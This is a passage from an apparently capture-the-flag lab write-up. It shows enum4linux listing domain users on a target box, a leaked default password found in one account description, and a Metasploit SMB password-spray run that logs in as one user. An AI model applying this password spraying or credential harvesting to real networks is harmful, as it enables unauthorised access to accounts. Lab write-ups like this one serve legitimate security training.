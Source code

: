 ```bash
index: 0xfbd RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0x10b6 RID: 0x19d0 acb: 0x00000010 Account: gustavo	Name: (null)	Desc: (null)
index: 0xff4 RID: 0x1f6 acb: 0x00000011 Account: krbtgt	Name: (null)	Desc: Key Distribution Center Service Account
index: 0x10b1 RID: 0x19cb acb: 0x00000010 Account: marcus	Name: (null)	Desc: (null)
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko	Name: Marko Novak	Desc: Account created. Password set to Welcome123!
index: 0x10c0 RID: 0x2775 acb: 0x00000010 Account: melanie	Name: (null)	Desc: (null)
index: 0x10c3 RID: 0x2778 acb: 0x00000010 Account: naoki	Name: (null)	Desc: (null)
index: 0x10ba RID: 0x19d4 acb: 0x00000010 Account: paulo	Name: (null)	Desc: (null)
index: 0x10be RID: 0x19d8 acb: 0x00000010 Account: per	Name: (null)	Desc: (null)
index: 0x10a3 RID: 0x451 acb: 0x00000210 Account: ryan	Name: Ryan Bertrand	Desc: (null)
index: 0x10b2 RID: 0x19cc acb: 0x00000010 Account: sally	Name: (null)	Desc: (null)
index: 0x10c2 RID: 0x2777 acb: 0x00000010 Account: simon	Name: (null)	Desc: (null)
index: 0x10bb RID: 0x19d5 acb: 0x00000010 Account: steve	Name: (null)	Desc: (null)
index: 0x10b8 RID: 0x19d2 acb: 0x00000010 Account: stevie	Name: (null)	Desc: (null)
index: 0x10af RID: 0x19c9 acb: 0x00000010 Account: sunita	Name: (null)	Desc: (null)
index: 0x10b7 RID: 0x19d1 acb: 0x00000010 Account: ulf	Name: (null)	Desc: (null)
index: 0x10c1 RID: 0x2776 acb: 0x00000010 Account: zach	Name: (null)	Desc: (null)


```

enum4linux generates a lot of information. Under `Users` we find an interesting description for the user Marko: 

> Desc: Account created. Password set to Welcome123!

If we try logging into the SMB service as Marko it fails. We can assume that Welcome123! is used as a default password by a lazy admin, so lets try it against all of the users. An easy way to do this is to use the auxiliary/scanner/smb/smb_login module in metasploit.

```bash
msf5 > use auxiliary/scanner/smb/smb_login

[*] 10.10.10.169:445      - 10.10.10.169:445 - Starting SMB login bruteforce
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\userlist::Welcome123!',
[!] 10.10.10.169:445      - No active DB -- Credential data will not be saved!
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\Administrator:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\Guest:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\krbtgt:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\DefaultAccount:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\ryan:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\marko:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\sunita:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\abigail:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\marcus:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\sally:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\fred:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\angela:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\felicia:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\gustavo:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\ulf:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\stevie:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\claire:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\paulo:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\steve:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\annette:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\annika:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\per:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\claude:Welcome123!',
[+] 10.10.10.169:445      - 10.10.10.169:445 - Success: 'megabank\melanie:Welcome123!'
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\zach:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\simon:Welcome123!',
```